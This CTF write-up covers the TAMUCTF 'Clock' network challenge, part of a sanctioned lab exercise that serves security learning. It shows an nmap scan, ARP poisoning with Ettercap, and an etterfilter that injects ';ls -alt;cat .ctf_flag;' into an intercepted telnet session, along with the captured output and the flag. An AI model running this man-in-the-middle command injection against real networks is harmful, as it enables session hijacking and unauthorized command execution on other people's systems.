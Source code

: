 # TAMUCTF Clock (Network/Pentest) Write-Up

### Jump straight in
```TeXt
	nmap 172.30.0.0/28

	Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-03 21:24 CST
	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet
	MAC Address: 02:42:16:55:5A:3B (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.087s latency).
	All 1000 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:CF:07:5C:FF (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000060s latency).
	All 1000 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 7.01 seconds
	```

2. We telnet open and we also see 2 hosts online. `172.30.0.2 and 172.30.0.3`. Taking knowledge from the previous challenges we will now initiate an ARP spoofing ettercap.

	**Arp Spoofing**

	Lets crack open Ettercap

		ettercap -G 				Opens etter in graphical mode

	First we gotta tell ettercap what it’s doing open.

		Sniff > Unified Sniffing > tap0 > OK
		
		This is telling ettercap to sniff the unified network tap0 which is going to set out interface to the VPN we connected to for the challenges

	Next we need to tell ettercap where the hosts are. Or actually let it find them itself. 

		Hosts > Scan for hosts

	Done. It now knows who’s online

	Now we need to actually specify the mode of the ettercap man in the middle attack. 

		Mitm > Arp Poisioning > Sniff remote connections (leave Only poision one way OFF) > OK
		
		This is setting the Mitm mode to ARP spoofing.  


3. Now we shall slide on over to wireshark and view the traffic we are stealing. 

	We some interesting things. One of with is the telnet login, but funny enough we will never directly telnet to this box. 
	We also can see that there is a challenge thingy and that the box `172.30.0.3` seems to solve it automatically. My first thought was that we can get `172.30.0.3` to solve the challenge we get from our login but that was a bad idea. Finally discovered etterfilters with a little nudge and started to write one that would drop the letter `t` from the command it’s running `date` and inject `;ls -la;` with the semi-colons there to terminate the commands before and after

	Important Note: We chose to drop the letter t from date because it's the only letter in that command that is not applicable in hex. If we had chosen any other letter we would've corrupted the challenge and thus gotten an incorrect response and not allowed access into the box. 

4. As for the actual etterfilter…

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;");
		}

	and now to run this we first need to compile. I named this script `clocketter` so my compile command was

		etterfilter clocketter

	at least for Kali Linux.

	Now we can venture on over to ettercap and give it the filter.

		Filters > Load a filter... > Select etterfilter.ef > OK

	You’ll know It’s working if you included a msg to tell you it’s working. Mine started dumping in `Found packet. Now editing` so I was hopeful I was about to see list of files. Wireshark dumped back…

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc

	and thus I extended my etterfilter to be

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;cat .ctf_flag;");
		}

	which dumped out

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc
		gigem{a032b26061c96e00e2a0b9e991f11476}
		alice@f855819477fd:~$

	This was a relatively short challenge in the number of steps but figuring out etterfilters, finding this solution, and executing the hack was a long tedious process. 
